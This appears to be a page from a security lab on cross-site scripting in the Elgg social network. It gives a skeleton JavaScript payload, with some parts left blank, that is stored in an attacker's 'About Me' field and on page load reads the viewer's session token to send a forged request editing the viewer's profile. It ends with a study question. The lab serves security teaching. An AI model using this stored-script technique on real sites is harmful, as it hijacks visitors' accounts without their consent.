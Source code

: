Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests
directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should
first find out how a legitimate user edits or modifies his/her profile in _Elgg_. More specifically, we need
to figure out how the HTTP POST request is constructed to modify a user’s profile. We will use Firefox’s
_HTTP_ inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can
write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that
aids in completing the task.
```
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content=...; //FILL IN

    var samyGuid=...; //FILL IN

    var sendurl=...; //FILL IN

    if(elgg.session.user.guid!=samyGuid) ¿
    {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
                              "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```
Similar to Task 4, the above code should be placed in the "_About Me_" field of Samy’s profile page,
and the Text mode should be enabled before entering the above JavaScript code.

**Questions.** Please answer the following questions:


- **Question 3:** Why do we need Line¿? Remove this line, and repeat your attack. Report and explain
    your observation.
